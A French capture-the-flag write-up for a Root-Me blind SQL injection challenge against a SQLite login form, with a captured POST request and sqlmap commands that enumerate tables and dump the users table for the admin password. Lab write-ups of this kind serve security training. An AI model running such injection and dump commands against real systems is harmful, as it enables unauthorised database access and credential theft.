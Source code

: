 # SQL injection - en aveugle

Page du [challenge](http://challenge01.root-me.org/web-serveur/ch10/)

## Analyse

Dans les champs `Login` et `Password` j'entre la valeur `'#`. J'obtiens un message d'erreur qui m'indique la vulnérabilité, mais aussi le type de base de données: `Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "#" in /challenge/web-serveur/ch10/index.php on line 39 `.

En utilisant _BurpSuite_, je récupère la requête POST en RAW, que je copie dans un fichier _req.txt_.

```
POST /web-serveur/ch10/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challenge01.root-me.org/web-serveur/ch10/
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

username=test&password=test
```

## Attaque

Première tentative basique de sqlmap. Malheuresement, cette attaque va être très lente a cette étape ``
```
sqlmap -r req.txt -p username,password --dbms sqlite --dbs
```

On va augmenter le _risk_ et le _level_. Dans le cas d'une base de données _SQLite_, on peut seulement rechercher les tables. Petit à petit, on retrouve l'information recherché, le mot de passe de l'admin.
```
sqlmap -r pouet.txt -p username,password --dbms sqlite --risk=3 --level=5 --tables
sqlmap -r pouet.txt -p username,password --dbms sqlite --risk=3 --level=5 -T users --columns
sqlmap -r pouet.txt -p username,password --dbms sqlite --risk=3 --level=5 -T users --dump
```
